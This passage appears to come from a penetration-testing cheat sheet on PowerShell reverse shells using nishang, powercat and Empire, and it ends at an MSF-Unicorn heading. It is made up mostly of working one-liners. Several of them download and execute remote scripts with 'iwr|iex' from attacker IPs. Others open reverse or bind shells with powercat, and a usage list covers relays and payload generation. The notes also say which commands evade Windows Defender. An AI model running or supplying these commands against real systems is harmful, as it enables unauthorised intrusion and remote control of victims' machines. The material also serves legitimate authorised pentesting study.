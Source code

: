 ```text
powershell -exec bypass -c "iwr('http://10.11.0.134/shell2.ps1')|iex"
```

Defender doesn't detect it as malicious code \(yet, 3/04/2019\).

**TODO: Check other nishang shells**

### **PS-Powercat**

[**https://github.com/besimorhino/powercat**](https://github.com/besimorhino/powercat)

Download, start web server, star listener and execute in victim:

```text
 powershell -exec bypass -c "iwr('http://10.2.0.5/powercat.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```

Defender doesn't detect it as malicious code \(yet, 3/04/2019\).

**Other options offered by powercat:**

Bind shells, Reverse shell \(TCP, UDP, DNS\), Port redirect, upload/download, Generate payloads, Serve files...

```text
Serve a cmd Shell:
    powercat -l -p 443 -e cmd
Send a cmd Shell:
    powercat -c 10.1.1.1 -p 443 -e cmd
Send a powershell:
    powercat -c 10.1.1.1 -p 443 -ep
Send a powershell UDP:
    powercat -c 10.1.1.1 -p 443 -ep -u
TCP Listener to TCP Client Relay:
    powercat -l -p 8000 -r tcp:10.1.1.16:443
Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    powercat -c 10.1.1.15 -p 443 -e cmd -g
Start A Persistent Server That Serves a File:
    powercat -l -p 443 -i C:\inputfile -rep
```

### Empire

[https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)

Create a powershell launcher, save it in a file and download and execute it.

```text
powershell -exec bypass -c "iwr('http://10.2.0.5/launcher.ps1')|iex;powercat -c 10.2.0.5 -p 4444 -e cmd"
```

**Detected as malicious code**

### MSF-Unicorn
